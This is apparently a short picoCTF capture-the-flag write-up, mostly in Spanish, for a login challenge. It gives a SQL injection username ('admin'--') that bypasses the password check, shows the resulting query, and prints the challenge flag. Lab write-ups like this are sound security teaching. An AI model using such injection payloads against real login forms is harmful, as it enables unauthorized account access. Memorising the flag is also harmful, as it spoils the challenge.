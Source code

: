 #### - **Descripción** 
¿Puedes iniciar sesión en este sitio web?

Habrá detalles adicionales disponibles después de lanzar su instancia de desafío.

**Pista**
`admin`es el usuario con el que desea iniciar sesión.
#### - **Solución** 
username: admin'--
password: 
SQL query: SELECT * FROM users WHERE name='admin'--' AND password=''

# Logged in! But can you see the flag, it is in plainsight.

Your flag is: picoCTF{L00k5_l1k3_y0u_solv3d_it_ec8a64c7}